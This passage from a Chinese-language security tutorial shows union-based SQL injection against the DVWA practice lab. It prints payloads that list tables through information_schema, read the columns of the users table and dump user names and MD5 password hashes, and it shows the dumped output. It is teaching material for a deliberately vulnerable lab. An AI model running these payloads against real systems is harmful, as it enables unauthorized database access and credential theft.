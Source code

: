 通过该方式我们就获取到了数据库的名字，名字叫做dvwa，用户还是admin

#### 获取数据表名

要想获取数据库的表名，我们需要借助关键字**information**、**schema**、**table_name**等关键字，因为**information_schema是MySQL的内置的数据库**。

payload：

```
1' untion select 1,table_name from information_schema.tables where table_schema='dvwa' #
```

![](D:\Document\My_book\My_Books\钟全龙著\img\屏幕截图 2023-03-22 194815-1684372364209-11.png)

此时返回了两个数据表：guestbook、users，很明显users才是我们需要的表，里面有我们需要的账户 和密码。

#### 获取数据库字段名

获取字段名只需要修改上一条payload的关键字，将其修改为column即可，因为column代表的是字段的意思，还需要借助函数group_concat()

```
1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #
```

![](D:\Document\My_book\My_Books\钟全龙著\img\屏幕截图 2023-03-22 195435-1684372364209-13.png)

此时获取到一些字段，**user_id,first_name,last_name,user,password**等信息，很明显字段user和password是我们需要的。

#### 获取字段内的信息

获取字段内的信息需要借助函数concat_ws()。

payload：

```
1' union select group_concat(user_id,first_name,last_name),group_concat(password)
from users #
```

![](D:\Document\My_book\My_Books\钟全龙著\img\屏幕截图 2023-03-22 195725-1684372364209-12.png)

此时返回了一条加密的信息，只需要将其解密即可获得账户和密码。

```
账户：
1adminadmin,
2GordonBrown,
3HackMe,
4PabloPicasso,
5BobSmith
密码：
5f4dcc3b5aa765d61d8327deb882cf99,
e99a18c428cb38d5f260853678922e03,
8d3533d75ae2c3966d7e0d4fcc69216b,
0d107d09f5bbe40cade3de5c71e9e9b7,
5f4dcc3b5aa765d61d8327deb882cf99。
```
